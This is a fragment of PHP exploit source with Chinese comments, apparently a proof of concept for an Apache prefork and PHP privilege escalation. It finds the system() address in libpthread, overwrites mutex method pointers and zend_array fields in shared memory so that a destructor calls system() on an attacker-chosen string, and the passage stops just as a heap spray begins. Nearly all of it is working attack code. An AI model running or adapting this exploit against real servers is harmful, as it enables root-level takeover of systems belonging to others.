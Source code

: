    for($i = 0;$i<count($pthread_region);$i++){
        if($pthread_region[$i][2] === "r-xp"){
            $system_addr = $pthread_region[$i][0]+0xF4C0;//system 在libpthread-2.17.so代码段中的偏移
            break;
        }
    }

    if($system_addr === 0){
        die("can't find system function addr\n");
    }
    echo "system function addr:0x".dechex($system_addr)."\n";

    //将apr_proc_mutex_unix_lock_methods_t中的child_init改为zend_object_std_dtor
    $child_init = $evil_mutex_methods_start_addr+0x30;
    echo "child_init(0x".dechex($child_init).") => zend_object_std_dtor\n";
    write_mem_qword($evil_mutex_methods_start_addr+0x30,$zend_object_std_dtor_addr);

    //将混合结构zend_array的pDestructor指向system
    $pDestructor = $evil_zend_array_start_addr + 0x30;
    echo "pDestructor(0x".dechex($pDestructor).") => system\n";
    write_mem_qword($pDestructor,$system_addr);

    //将混合结构zend_array的meth指向apr_proc_mutex_unix_lock_methods_t
    $meth = $evil_zend_array_start_addr + 0x8;
    echo "meth(0x".dechex($meth).") => mutex_mthods_struct\n";
    write_mem_qword($meth,$evil_mutex_methods_start_addr);
    write_mem_qword($evil_zend_array_start_addr,0x1);

    //将prefork_child_bucket中的mutex指向混合结构zend_array
    $mutex = $evil_parent_start_addr + 0x10;
    echo "mutex(0x".dechex($mutex).") => zend_array struct\n";
    write_mem_qword($mutex,$evil_zend_array_start_addr);

    //将混合结构prefork_child_bucket中的properties指向zend_array结构
    $properties = $evil_parent_start_addr + 0x20+0x10;
    echo "properties(0x".dechex($properties).") => zend_array struct\n";
    write_mem_qword($properties,$evil_zend_array_start_addr);

    //system 字符串 写入
    for($i = 0;$i<strlen($evil_string);$i++){
        $b = ord($evil_string[$i]);
        write_mem($evil_string_start_addr+$i,$b);
    }
    write_mem($evil_string_start_addr+$i,0);

    //将zend_array中的arData指向system字符串
    $ar_data = $evil_zend_array_start_addr + 0x10;
    echo "ar_data(0x".dechex($ar_data).") => evil string\n";
    write_mem_qword($ar_data,$evil_string_start_addr);

    //将zend_array中的nNumUsed设置为1，（自行分析代码去）
    $nNumUsed = $evil_zend_array_start_addr + 0x18;
    write_mem_qword($nNumUsed,1);


    //堆喷
    echo "\nSpraying the shared memory start\n\n";

